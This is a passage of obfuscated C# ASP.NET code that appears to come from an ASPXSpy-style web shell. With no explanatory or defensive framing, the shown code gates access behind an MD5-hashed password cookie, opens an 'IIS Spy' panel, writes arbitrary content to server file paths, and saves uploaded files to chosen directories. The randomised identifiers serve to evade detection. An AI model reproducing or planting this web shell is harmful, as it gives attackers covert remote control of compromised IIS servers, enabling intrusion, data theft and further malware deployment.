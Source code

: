 tr.Cells.Add(tc);
oJiym.Rows.Add(tr);
}
public void xseuB(string instr)
{
jDKt.Visible=true;
jDKt.InnerText=instr;
}
protected void xVm(object sender,EventArgs e)
{
string Jfm=FormsAuthentication.HashPasswordForStoringInConfigFile(HRJ.Text,"MD5").ToLower();
if(Jfm==Password)
{
Response.Cookies.Add(new HttpCookie(vbhLn,Password));
ljtzC.Visible=false;
PBZw();
}
else
{
tZSx();
}
}
protected void Ybg(object sender,EventArgs e)
{
krIR(Server.MapPath("."));
}
protected void KjPi(object sender,EventArgs e)
{
Bin_H2_Title.InnerText="IIS Spy &gt;&gt;";
WICxe();
VNR.Visible=true;
AdCx();
}
protected void DGCoW(object sender,EventArgs e)
{
try
{
StreamWriter sw;
if(NdCX.SelectedItem.Text=="UTF-8")
{
sw=new StreamWriter(Sqon.Value,false,Encoding.UTF8);
}
else
{
sw=new StreamWriter(Sqon.Value,false,Encoding.Default);
}
sw.Write(Xgvv.InnerText);
sw.Close();
xseuB("Save file success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
protected void lbjLD(object sender,EventArgs e)
{
string FlwA=AXSbb.Value;
FlwA=OElM(FlwA);
try
{
Fhq.PostedFile.SaveAs(FlwA+Path.GetFileName(Fhq.Value));
xseuB("File upload success!");